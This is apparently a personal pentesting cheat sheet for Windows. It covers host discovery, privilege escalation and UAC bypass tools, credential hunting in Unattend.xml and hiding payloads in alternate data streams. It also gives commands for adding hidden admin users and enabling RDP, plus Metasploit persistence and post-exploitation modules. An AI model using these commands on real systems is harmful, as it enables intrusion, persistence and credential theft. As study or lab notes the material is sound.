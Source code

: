
# Cmd ping sweep (host discovery)

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.86.174.%i > nul && echo 10.86.74.%i is up.
```

# Privesc

## Tools
[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) #Windows_priv_esc
[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) #Windows_priv_esc
[Metasploit local priv modules](Metasploit)  #Windows_priv_esc
[MimiKatz](Mimikatz) #password_dump
 
## By passing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the windows target system


[UACME](https://github.com/hfiref0x/UACME) 

- UACme tool allows attackers to execute malicious payloads on Windows target with administrative/elevated privs by abusing the inbuilt Windows AuteElevate tool


## Token Impersonation

[Token Impersonation](Token_Impersonation)   

[Sweet potato](https://github.com/CCob/SweetPotato)


## Unattended Windows Setup 

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems 
It's Typically done by **Unattended Windows Setup** which is used to automate the mass installation/deployment of Windows on systems
This tool utilizes configuration files that contain specific configurations and user account credentials, specially the Administrator account's password


- The Unattended Windows Setup utility will typically save files inside:
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```

## Powersploit 

[Powersploit (Powerup)](https://github.com/PowerShellMafia/PowerSploit)


## Pass the hash

#passhash 

# Evasion 
## ADS (Alternate Data Streams)
**Data stream**: The content of the file eg. what's inside a text file is the data stream
**Metadata**: Information about the file eg. when file was created and by who etc.

- Alternate Data Streams (ADS) is an NTFS (New technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
- Any file created on an NTFS formatted drive will have twi different forks/streams:
	- Data stream - Default stream that contains the data of the file
	- Resource stream - Typically contains metadata of the file
- Attackers can use ADS to hide malicious code or executables in legitimate files to evade detection 
- This can be done by storing malicious code or executables inside metadata of legitimate file

### Example

```powershell

notepad file.txt:hiddenfile # Creats a txt file and inside of a second file 

type PAYLOAD.exe > normalfile.txt:PAYLOAD.exe # hiding .exe file inside txt file

start normalfile.txt:PAYLOAD.exe # executing file inside normalfile.txt
OR
# Create link to the hidden file
mklink wupdate.exe PATH_OF_THE_FILE:PAYLOAD.exe
wupdate.exe # Will start PAYLOAD.exe




```

# System useful commands
## Powershell
```powershell

whoami /all
whoami /priv#  to check my user priv 
icacls check priv for files
- [enviroment]::Is64Bit [ARGUMENT] 

OperatingSystem # to check if the OS running 64bit
Process # to check if the processes running 64 bit
schtasks#  check running tasks cmd 

systeminfo

New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose # create user inside of a domain
```
## CMD


```powershell

whoami /priv # user privs
net user # info about user
net localgroup  # check my user groups
net localgroup administrators # or anygroup check for users in group
net user USER PASSWORD # changet user USER password to PASSWORD
net user htb abc123! /add # add the user htb with the password abc123!
net localgroup administrators htb /add # add user htb to administrators group



#services
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 


# enable rdp

powershell -command "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop' "

```


# Metasploit

## PRIV ESC 
```rb

# Exploit Suggester 
https://github.com/AonCyberLabs/Windows-Exploit-Suggester


# On the target

systeminfo
# Copy output into a file on attacker machine

./windows-exploit-suggester.py --update # Download database 

./windows-exploit-suggester.py --database DATABASEFILE.xls --systeminfo SYSTEMINFOFILE.txt

```

## Post Exploitation
```ruby

use post/windows/gather/win_privs # check user privs 
OR 
getprivs # on Meterpreter

use post/windows/gather/enum_logged_on_users # check logged in users history

use post/windows/gather/checkvm # check vm

use post/windows/gather/enum_applications # enum apps on target
use post/windows/gather/enum_av_excluded # enum for paths excluded by av
use post/windows/gather/enum_computers # enum connected computers in same LAN
use post/windows/gather/enum_shares # enum shares 

# UAC bypass

use exploit/windows/local/bypassuac_injection

```

# Maintain access 

[MimiKatz](Mimikatz) 



## Metasploit
- Metasploit uploads a exe payload and add the exactable to the system services and when the system gets booted if we have only listener on we will get a reverse shell and maintain access on the target  or enabling RDP etc.
```rb

use exploit/windows/local/persistence_service # adding payload to the system services to be executed when system reboots

# Meterpreter

run getgui -e -u ignite -p 123 # Enable RDP and add user of the name ignite and password 123
run getui -e # just enabble RDP

# On metasploit
use  post/windows/manage/enable_rdp  # enable RDP on target

set username pavan

set password 123

set session 1
---

```